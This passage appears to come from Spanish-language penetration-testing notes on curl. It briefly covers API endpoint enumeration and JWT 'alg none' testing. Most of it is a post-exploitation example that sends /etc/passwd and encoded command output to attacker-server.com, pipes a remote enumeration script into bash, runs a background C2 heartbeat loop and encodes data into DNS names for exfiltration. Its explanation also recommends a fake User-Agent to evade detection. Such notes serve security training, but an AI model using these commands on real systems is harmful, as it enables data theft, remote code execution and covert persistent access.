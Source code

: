 ```bash
     -H "Content-Type: application/json" \
     https://api.target.com/admin
```

> [!info] Explicación
> Este ejemplo muestra enumeración de APIs y testing de JWT:
> 1. **Primera parte**: Automatiza el descubrimiento de endpoints probando diferentes rutas
> 2. **Para endpoints válidos**: Prueba diferentes métodos HTTP para ver qué está permitido
> 3. **Testing JWT**: Prueba manipulación de tokens JWT cambiando el algoritmo a "none"
> 
> La opción `-w "%{http_code}"` obtiene solo el código de respuesta HTTP, útil para automatización.

### Ejemplo 3: Post-explotación y exfiltración de datos

```bash
# Exfiltrar archivo del sistema comprometido
# En el sistema comprometido:
curl -X POST -F "file=@/etc/passwd" \
     -H "User-Agent: Mozilla/5.0 (compatible; UpdateChecker)" \
     https://attacker-server.com/upload

# Enviar output de comandos vía POST
command_output=$(ps aux | head -20)
curl -X POST -d "data=$(echo "$command_output" | base64)" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     https://attacker-server.com/receive

# Descarga silenciosa de herramientas
curl -s https://attacker-server.com/tools/linpeas.sh | bash

# Establecer comunicación persistente (heartbeat)
while true; do
    hostname=$(hostname)
    uptime=$(uptime)
    curl -s -X POST \
         -d "host=$hostname&status=$uptime&timestamp=$(date +%s)" \
         https://attacker-server.com/heartbeat
    sleep 300  # Cada 5 minutos
done &

# Exfiltración de datos por DNS (si HTTP está bloqueado)
data="sensitive_data_here"
encoded_data=$(echo "$data" | base64 | tr -d '\n' | tr '+/' '-_')
curl -s "https://dns-exfil.$encoded_data.attacker-domain.com" > /dev/null
```

> [!info] Explicación
> Este ejemplo muestra técnicas de post-explotación:
> 1. **Exfiltración de archivos**: Envía archivos sensibles como `/etc/passwd` al servidor del atacante
> 2. **Envío de output**: Codifica en base64 la salida de comandos para enviarla
> 3. **Descarga de herramientas**: Descarga y ejecuta scripts de enumeración directamente
> 4. **Heartbeat**: Mantiene comunicación periódica con el servidor C2
> 5. **DNS exfiltration**: Método alternativo cuando HTTP está bloqueado
> 
> Usar User-Agent personalizado ayuda a evadir detección básica.

---